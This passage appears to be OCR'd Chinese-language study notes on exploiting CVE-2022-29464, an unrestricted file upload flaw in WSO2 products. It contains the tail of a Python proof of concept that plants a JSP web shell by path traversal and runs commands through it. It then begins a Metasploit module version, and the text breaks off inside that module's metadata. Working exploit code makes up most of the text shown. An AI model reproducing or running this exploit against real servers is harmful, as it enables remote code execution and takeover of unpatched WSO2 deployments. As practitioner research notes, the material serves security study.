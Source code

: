         base_url = find_base_url(args)
        shell = make_shell()  
        files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/abc.jsp": shell}

        url = "http://" + args['rhost'] + ":" + args['RPORT']

        if exploit(url,files) :
            print("Vulnerable")
        else: 
            print("Error")

        #new add
        url = url + "//authenticationendpoint/abc.jsp"    
        #r = requests.get(url + "?cmd=ls")
        payload = {'cmd': 'ls'}
        r = requests.get(url,params = payload)
        print(r.status_code)
        print(r.text)

    if __name__ == '__main__':
        main()
    ```

    * Output:
        ![](https://i.imgur.com/tBG5AIz.png)


* 在使用 python 確認該 POC 可行，之後試著把它改寫為 metasploit external module
    * 將檔案存在`.msf4/modules/auxiliary/scanner/http` 裡面，並命名為 `wso2_file_upload_rce.py`

    ```python
    #!/usr/bin/env python3

    # standard modules
    from metasploit import module

    # extra modules
    dependencies_missing = False
    try:
        import requests
        import urllib3
        import sys
        import time
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    except ImportError:
        dependencies_missing = True

    metadata = {
        'name': 'WSO2 Arbitrary File Upload to RCE',
        'description': '''
            This module abuses a vulnerability in certain WSO2 products that allow unrestricted file
              upload with resultant remote code execution. This affects WSO2 API Manager 2.2.0 and
              above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server
              Analytics 5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above
              through 5.10.0; and WSO2 Enterprise Integrator 6.2.0 and above through 6.6.0.
        ''',
        'authors': [
            'yuting',
        ],
        'date': '2022-05-23',
        'license': 'MSF_LICENSE',
        'references': [
                                    {'type': 'url', 'ref': 'https://github.com/hakivvi/CVE-2022-29464'},
            {'type': 'cve', 'ref': '2022-29464'}
        ],